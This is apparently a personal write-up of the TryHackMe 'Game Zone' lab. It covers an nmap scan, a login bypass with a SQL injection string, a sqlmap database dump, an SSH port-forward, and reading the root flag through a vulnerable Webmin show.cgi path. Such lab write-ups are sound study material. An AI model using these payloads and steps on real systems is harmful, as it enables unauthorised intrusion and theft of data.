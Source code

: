 ```yaml
---
title: GameZone-writeup-THM
date: 2022-12-28 
categories: [room, easy]
tags: [linux, sqli]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/gamezone">Game Zone</a>" 

We are going to startwith a scan:

```bash
nmap <your_ip>

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 10:50 EST
Nmap scan report for 10.10.108.222
Host is up (0.060s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE    SERVICE
22/tcp  open     ssh
80/tcp  open     http
259/tcp filtered esro-gen

Nmap done: 1 IP address (1 host up) scanned in 9.93 seconds
```

First of all we access the web page and see the hitman,

if you don’t know his name, just use google images.

Then we see a login page, and try using SQLi

We do this by adding `' or 1=1 — -` instead of the username

By doing this we can access the site.

Now we are going to use sqlmap to dump the entire database!

Before that we need to capture the request with burp.

You can do that just by 

- activating the proxy,
- capturing the request in the game zone portal
- copy it into a txt file,
- And put it into sqlmap like that:

```bash
sqlmap -r request.txt --dbms=mysql --dump --threads=5
```

Now that we have a username and password, I am going to use ssh.

Then we will use a tool called **ss** to investigate sockets running on a host.

If we run **ss -tulpn** it will tell us what socket connections are running

| Argument | Description |
| --- | --- |
| -t | Display TCP sockets |
| -u | Display UDP sockets |
| -l | Displays only listening sockets |
| -p | Shows the process using the socket |
| -n | Doesn't resolve service names |

We see that is running a servvice on port 10000 but is filtered by the firewall.

So we go back to our machine and run **`ssh -L 10000:localhost:10000 <username>@<ip>`**

Once we are in we can open our browser and go to localhost:1000,

here we are met with a login page.

I just use the credential that we altready have and they worked.

After that we just need to use metasploit, to search the exploit and run it using the options that he wants.

I’ve tried for long enough to make it work but I didn’t succeded, 

in the end I searched in Exploit DB and read what the exploit does, I found out that it just allows you to exeute arbitrary commands in the `/file/show.cgi` component

Viewing the hint I know that the flag is in root.txt, so I just had to do this:

```bash
http://localhost:10000/file/show.cgi/root/root.txt
```